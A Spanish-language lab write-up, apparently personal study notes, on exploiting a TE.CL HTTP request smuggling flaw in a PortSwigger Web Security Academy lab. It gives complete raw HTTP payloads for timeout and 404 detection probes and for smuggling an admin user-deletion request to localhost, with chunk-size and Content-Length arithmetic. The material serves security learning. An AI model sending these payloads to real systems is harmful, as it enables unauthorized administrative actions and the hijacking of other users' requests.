

---
aliases:
  - HTTP Smuggling 002 - TE.CL
  - te.cl
tags:
  - vuln/http-smuggling
  - example
  - portswigger
---

# 002 — TE.CL

> Lab: [Basic TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl) · **Practitioner** · técnica → [[vulnerabilities/008-http_smuggling/http-smuggling|entry point]]

## ¿Por qué acá?

- **Vengo de [[vulnerabilities/008-http_smuggling/examples/001-cl-te|001 (CL.TE)]]:** ahí el front contaba bytes y el back cortaba en el chunk.
- **Acá es al revés:** el **front usa `Transfer-Encoding`** y el **back usa `Content-Length`**. Cambia cómo armás el cuerpo (chunks con tamaño en **hex**) y — ojo — **la sonda de detección sí contamina el socket**.

## Concepto

**Front-end usa `Transfer-Encoding`, back-end usa `Content-Length`.**

- **Front (TE):** lee los chunks, corta en el chunk `0` → reenvía hasta ahí.
- **Back (CL):** cuenta los bytes que dice el `Content-Length` (chico), consume solo eso, y **todo lo que sobra lo interpreta como la siguiente request**. Eso es lo colado.



---

## Detección · Caso A (timeout)

> [!warning] Esta sonda **CONTAMINA el socket**
> Deja un byte (`X`) suelto que se pega al inicio de la request del **próximo usuario** → lo corrompés. Usala con cuidado y **nunca** en un target compartido. Si podés, andá directo al **Caso B (404)**.

```http
POST /about HTTP/1.1
Host: TU-LAB.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

**Qué pasa byte a byte:**
- El front (TE) lee el chunk `0` → **cierra ahí** y reenvía `0\r\n\r\n`. La `X` queda como **inicio de la "próxima" request** en el socket front→back (**← esto es lo que contamina**).
- El back (CL:6) espera **6 bytes** de cuerpo pero recibe menos → **se cuelga** esperando el byte que falta → **timeout**.
- Si tarda ≥ umbral → **TE.CL confirmado**.

## Detección · Caso B (404 diferencial) — preferido

Colás un `GET /404` como request colada y verificás que **tu segunda request** reciba el `404`. Acá el cuerpo va **en chunks** y el CL exterior es **chico**:

```http
POST / HTTP/1.1
Host: TU-LAB.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

5c
GET /404 HTTP/1.1
Host: TU-LAB.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

- El front (TE) lee el chunk de tamaño **`5c`** (hex = 92 bytes) → ese bloque es la request colada `GET /404 …`.
- El back (CL:4) consume **solo `5c\r\n`** (4 bytes) y **todo lo demás** (`GET /404 …`) queda colado → tu **segunda request** recibe **`404`** → **confirmado**, sin colgar nada.

---

## Cómo explotarlo

> [!info] Cómo leer los colores
> <span style="color:#d17a22"><b>■ Naranja = lo que cambiás VOS</b></span> (el <span style="color:#d17a22">SMUGGLED</span>). <span style="color:#3d8bfd"><b>■ Azul = las CONSECUENCIAS</b></span> que se recalculan. **Ojo: en TE.CL un solo cambio naranja arrastra DOS números azules** → el <span style="color:#3d8bfd">tamaño hex</span> (= longitud del smuggled) y el <span style="color:#3d8bfd">Content-Length exterior</span> (= dígitos de ese hex + 2).

Estructura: <span style="color:#3d8bfd">`TAMAÑO-HEX`</span> → <span style="color:#d17a22">`SMUGGLED`</span> → `0` (cierre):

<pre>
POST / HTTP/1.1
Host: TU-LAB.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: <span style="color:#3d8bfd"><b>3</b></span>
Transfer-Encoding: chunked

<span style="color:#3d8bfd"><b>8</b></span>
<span style="color:#d17a22"><b>SMUGGLED</b></span>
0

</pre>

> [!important] Los dos números <span style="color:#3d8bfd">azules</span> (la parte que más se equivoca)
> - <span style="color:#3d8bfd">**Tamaño hex**</span> = longitud EXACTA del <span style="color:#d17a22">SMUGGLED</span>. Acá <span style="color:#d17a22">SMUGGLED</span> mide 8 bytes → <span style="color:#3d8bfd">`8`</span>. Si tu request colada mide 92 bytes → <span style="color:#3d8bfd">`5c`</span>. Contá bien (incluí los `\r\n` internos). **En HEX**, no decimal.
> - <span style="color:#3d8bfd">**`Content-Length` exterior**</span> = (dígitos del tamaño hex) **+ 2** por el `\r\n`. Con hex <span style="color:#3d8bfd">`8`</span> (1 dígito) → CL = 1 + 2 = <span style="color:#3d8bfd">`3`</span>. Con hex <span style="color:#3d8bfd">`5c`</span> (2 dígitos) → CL = 2 + 2 = <span style="color:#3d8bfd">`4`</span>. Ese CL hace que el back **solo lea `<hex>\r\n`** y deje todo lo demás colado.

**El <span style="color:#d17a22">SMUGGLED</span> en serio** — request completa con `Content-Length` grande para que el back **espere** y se **coma el inicio de la request del próximo usuario**:

<pre>
POST / HTTP/1.1
Host: TU-LAB.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: <span style="color:#3d8bfd"><b>&lt;dígitos del hex + 2&gt;</b></span>
Transfer-Encoding: chunked

<span style="color:#3d8bfd"><b>&lt;hex de la longitud del SMUGGLED&gt;</b></span>
<span style="color:#d17a22"><b>GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1</b></span>
0

</pre>

- <span style="color:#d17a22"><b>Naranja</b></span>: vos elegís toda la request colada.
- <span style="color:#3d8bfd"><b>Azul (×2)</b></span>: al cambiar el naranja, **medís su longitud → la ponés en hex** (chunk size) **y** ponés **dígitos de ese hex + 2** en el CL exterior. Un cambio, dos recálculos.

**Mandalo 2 veces:** la 1ª deja el prefijo esperando; la 2ª (o la de la víctima) lo dispara. El script [[vulnerabilities/008-http_smuggling/scripts/te_cl.py|te_cl.py]] arma los chunks y los tamaños por vos.

## Verificación

- **Prueba de vida (lab básico):** colá un prefijo `GPOST …` y mandá 2 veces → **`Unrecognized method GPOST`** en la 2ª respuesta.
- **Impacto:** la 2ª request devuelve la acción del smuggled (o `carlos` borrado / la request de la víctima capturada por el CL grande).

## Detalles que se pasan por alto

- **Dos números que cuadrar** (CL exterior + tamaño hex) → es más finicky que CL.TE. Un byte mal y no cuela.
- **Tamaño en HEX**, no decimal (92 = `5c`, no `92`).
- La sonda de detección **contamina** → preferí el 404, o mandá una request "limpiadora" después si tuviste que usar timing.
- **Repeater:** "Update Content-Length" **desactivado** (si no, Burp recalcula el CL exterior y te rompe todo el conteo).

→ Siguiente: [[vulnerabilities/008-http_smuggling/examples/003-te-te|003 · TE.TE (cuando ambos usan TE → ofuscación)]]
